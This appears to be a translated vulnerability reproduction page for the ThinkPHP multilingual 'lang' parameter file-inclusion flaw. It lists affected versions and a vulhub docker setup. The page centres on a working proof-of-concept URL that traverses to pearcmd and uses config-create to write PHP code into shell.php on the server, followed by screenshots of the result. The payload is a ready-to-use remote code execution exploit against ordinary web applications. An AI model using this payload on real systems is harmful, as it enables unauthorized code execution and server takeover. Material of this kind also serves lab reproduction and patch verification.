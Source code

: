 # ThinkPHP LoadLangPack lang Any file contains vulnerabilities

## Vulnerability Description

When the Thinkphp program enables multilingual functions, you can pass parameters through get, header, cookie and other locations, use the pearcmd file to enter the command execution and obtain server permissions

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Thinkphp，v6.0.1~v6.0.13，v5.0.x，v5.1.x</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">docker pull vulhub/thinkphp:6.0.12</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671154096412-bb0dedfd-eb08-4b0c-af16-60a54db8a17d.png)

Verify POC

```php
/public/index.php?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671154607827-3548f528-c745-4ed1-994a-8aee9850ddee.png)![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671154706972-596ab1d0-26ce-428b-a54b-b94ddaf4e8ef.png)